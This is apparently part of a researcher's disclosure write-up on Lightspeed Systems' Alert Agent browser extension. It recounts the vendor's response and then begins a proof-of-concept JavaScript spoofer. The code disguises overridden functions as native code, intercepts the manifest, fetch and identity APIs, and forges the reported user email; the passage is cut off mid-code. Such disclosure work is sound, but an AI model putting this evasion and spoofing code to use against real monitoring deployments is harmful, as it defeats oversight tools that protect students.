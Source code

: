 I sent everything to Lightspeed, and at the end of it all, they said a couple things:

- The Alert Agent is outdated in terms of MV2 (I'm assuming this is because they don't want to allow the pre-background script injection)
- Their currently released agent version is safe (not sure if the server still accepts the forged requests, but I can't really check now because..)
- "Please also note that testing against Lightspeed Systems assets without prior written consent is not authorized. This policy is in place to safeguard our infrastructure and our customers from unintended consequences." so no more Lightspeed testing
- Since they "appreciate the professional and responsible way you handled this disclosure," they wanted to send Lightspeed Systems SWAG

Edit: I got it:

![report generator](../../swag.webp)

All of it was pretty cool, especially the Rambler and Lightspeed-branded Tile tag.

## PoC files

This is the main spoofer file, basically the main PoC:

```js
// ----------------------
// POC CONFIG

let target = "target@example.org"

// ----------------------

let bootmessage = "Lightspeed Alert Injection Loaded! Note: using this PoC actively changes sreport's email to a spoofed one."

alert(bootmessage)
console.log(bootmessage);

// --- MAIN VULNERABILITY - HIDE MODIFICATIONS ---
function hideOverride(func, nativeFunc) {
  const proxy = new Proxy(func, {
    apply(target, thisArg, args) {
      return Reflect.apply(target, thisArg, args);
    }
  });

  Object.defineProperty(proxy, "toString", {
    value: function() {
      return `function ${nativeFunc.name || 'anonymous'}() { [native code] }`;
    },
    writable: false,
    configurable: false,
    enumerable: false
  });

  return proxy;
}

// --- BACKUP ORIGINALS ---
const origManifest            = chrome.runtime.getManifest;
const origFetch               = window.fetch;
const origGetProfileUserInfo  = chrome.identity.getProfileUserInfo;

// --- CLONE & FILTER MANIFEST - HIDE FAKER ---
let manifestcontent = JSON.parse(JSON.stringify(origManifest()));
if (manifestcontent.background?.scripts) {
  manifestcontent.background.scripts =
```